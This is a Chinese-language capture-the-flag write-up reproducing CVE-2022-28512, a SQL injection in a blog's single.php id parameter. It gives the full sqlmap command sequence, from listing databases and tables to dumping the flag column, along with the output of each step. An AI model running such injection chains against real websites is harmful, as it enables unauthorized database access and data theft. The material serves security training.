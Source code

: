 # CVE-2022-28512漏洞复现
打开环境，访问```eci-2ze483uhhb41le85czm2.cloudeci1.ichunqiu.com/single.php?id=1```
会出现文章，这里可以使用union进行手工联合注入，在这里为了方便快捷，我们使用sqlmap进行sql注入，注意：这里不需要登录注册
首先，爆库名
```sqlmap -u "eci-2ze483uhhb41le85czm2.cloudeci1.ichunqiu.com/single.php?id=1" --dbs```

结果为：
```
available databases [4]:                                                    
[*] ctf
[*] information_schema
[*] mysql
[*] performance_schema
```

然后对ctf数据库爆表名
```
sqlmap -u "eci-2ze483uhhb41le85czm2.cloudeci1.ichunqiu.com/single.php?id=1"  -D "ctf" --tables
```

结果为：
```
Database: ctf                                                                                                                                                                                                                              
[14 tables]
+-----------------------------+
| banner_posts                |
| blog_categories             |
| blogs                       |
| editors_choice              |
| flag                        |
| links                       |
| membership_grouppermissions |
| membership_groups           |
| membership_userpermissions  |
| membership_userrecords      |
| membership_users            |
| page_hits                   |
| titles                      |
| visitor_info                |
+-----------------------------+
```

然后我们对表flag爆列名
```
sqlmap -u "eci-2ze483uhhb41le85czm2.cloudeci1.ichunqiu.com/single.php?id=1"  -D "ctf" -T "flag" --columns
```

结果为
```
Database: ctf
Table: flag
[1 column]
+--------+---------------+
| Column | Type          |
+--------+---------------+
| flag   | varchar(1024) |
+--------+---------------+
```

最后爆字段，获取到flag
```
sqlmap -u "eci-2ze483uhhb41le85czm2.cloudeci1.ichunqiu.com/single.php?id=1"  -D "ctf" -T "flag" -C "flag" --dump
```

最后获取到flag！
